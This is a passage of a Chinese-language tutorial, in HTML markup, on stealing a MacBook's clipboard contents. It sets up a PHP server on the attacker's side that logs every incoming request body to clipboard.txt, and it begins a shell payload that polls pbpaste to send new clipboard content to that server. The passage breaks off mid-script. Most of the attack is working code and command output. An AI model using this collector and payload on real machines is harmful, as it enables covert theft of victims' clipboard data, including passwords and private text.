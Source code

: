    <strong class="markup--strong markup--p-strong">
    cd
   </strong>
   命令切换到 phpServer/ 目录。
  </p>
  <pre class="graf graf--pre"><code>~# cd phpServer/</code></pre>
  <p class="graf graf--p">
   用
   <strong class="markup--strong markup--p-strong">
    nano
   </strong>
   创建一个名为 “index.php” 的文件。
  </p>
  <pre class="graf graf--pre"><code>~/phpServer# nano index.php</code></pre>
  <p class="graf graf--p">
   将以下 PHP 代码粘贴到 nano 终端中。完成后要保存并退出 nano 终端，按 Ctrl + x，然后按 y，然后按 Enter。
  </p>
  <pre class="graf graf--pre"><code class="markup--code markup--pre-code">&lt;?php
$input = file_get_contents("php://input");
$log = file_put_contents('clipboard.txt', $input.PHP_EOL , FILE_APPEND | LOCK_EX);
?&gt;</code></pre>
  <p class="graf graf--p">
   它能够拦截数据，而且不需要做任何修改就能发挥作用。当 MacBook 发送剪贴板内容时，服务器将捕获数据并附加到一个名为 “clipboard.txt” 的文件。
  </p>
  <p class="graf graf--p">
   最后，使用
   <strong class="markup--strong markup--p-strong">
    php -S 0.0.0.0:80
   </strong>
   命令启动PHP服务器。
  </p>
  <pre class="graf graf--pre"><code class="markup--code markup--pre-code">~/phpServer# php -S 0.0.0.0:80

PHP 7.0.33-0+deb9u3 Development Server started at Sun Jun  9 08:38:55 2019
Listening on http://0.0.0.0:80
Document root is /root/phpServer
Press Ctrl-C to quit.</code></pre>
  <h3 class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    步骤2：创建有效载荷
   </strong>
  </h3>
  <p class="graf graf--p">
   下面的脚本将比较当前剪贴板的内容和最近发送到攻击者服务器的内容。为了清楚起见，它采用的是标准的shell脚本格式。
  </p>
  <pre class="graf graf--pre"><code class="markup--code markup--pre-code"># While loop to dump the clipboard over and over again, infinitely.
while true; do

    # An `if` statement, compares the current clipboard
    # content to the content found in the last loop.
    if [[ "$(pbpaste)" != "$pbpaste_last" ]]; then
